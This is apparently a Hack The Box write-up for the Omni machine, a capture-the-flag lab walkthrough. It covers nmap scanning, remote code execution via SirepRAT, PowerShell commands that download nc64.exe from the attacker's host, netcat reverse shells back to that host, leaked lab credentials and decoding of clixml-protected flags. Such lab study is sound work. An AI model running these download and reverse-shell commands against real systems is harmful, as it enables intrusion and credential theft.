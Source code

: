 # Box 



![omni](img/Screenshot_2020-12-24_17-26-56.png)

https://www.hackthebox.eu/home/machines/profile/271

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177



# Table of Contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -Pn -sC -oN result 10.10.10.204
```

![image-20201226121741505](img/image-20201226121741505.png)

When we connect to the web page : 

![image-20201226122024496](img/image-20201226122024496.png)

After researching for "windows device portal" we find a software that we can use to do a RCE : https://github.com/SafeBreach-Labs/SirepRAT 

## Exploitation

I've tried to upload and use nc.exe but it doesn't work so I try to use the 64 bits one. 

To upload our nc we use : 

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell -c  \"Invoke-WebRequest \"http://10.10.14.28:4444/nc64.exe\" -OutFile \"C:\Windows\Temp\nc64.exe\"  \" "
```

Now we can get our reverse_shell : 

```python
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --as_logged_on_user --return_output  --cmd "cmd.exe" --args  "/c C:\Windows\Temp\nc64.exe 10.10.14.28 1234 -e cmd.exe"  --vv
```

![image-20201226122638863](img/image-20201226122638863.png)



## Post-Exploitation

### User



Let's upload our enumeration script jaws-enum.ps1.

Nothing is suspicious except for a file called "r.bat" which is a weird name for a .bat file 

We also saw a path with a user folder and administrator :

![image-20201226132943029](img/image-20201226132943029.png)

let's see what's inside the r.bat file : 

```bash
type  "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
```

![image-20201226131942878](img/image-20201226131942878.png)

We got credentials :

```powershell
net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz
```

Now we can authenticate on the webpage.

![image-20201226134815187](img/image-20201226134815187.png)

​                          

We can see a "Run command" page (http://10.10.10.204:8080/#Run%20command)

We can use our previous nc64.exe to get a shell with app user 

```powershell
C:\Windows\Temp\nc64.exe -e cmd.exe 10.10.14.28 1234
```

it seems that we have an access denied. 

I reupload the file thanks to the run command page in the app folder that we discovered earlier.

```powershell
powershell -c "Invoke-WebRequest -Uri \"http://10.10.14.28:4444/nc64.exe\" -OutFile \"C:\Data\Users\app\nc64.exe\"" 
```

Execute our reverse_shell :

```powershell
C:\Data\Users\app\nc64.exe -e powershell.exe 10.10.14.28 1234
```

![image-20201226134056626](img/image-20201226134056626.png)

Now let's type the user.txt file.

![image-20201226134125813](img/image-20201226134125813.png)

It seems that the files are encoded thanks to the clixml utility.

We can decode it easily with theses commmands : 

```bash
$Credential = Import-Clixml -Path C:\Data\Users\app\user.txt
$Credential.GetNetworkCredential().Password
```

![image-20201226135903728](img/image-20201226135100716.png)

### Root



You need to do the same with the admin crdential that we found earlier, authenticate, run the command on the webpage, get a reverse_shell, et decode the clixml file.

Rooted.

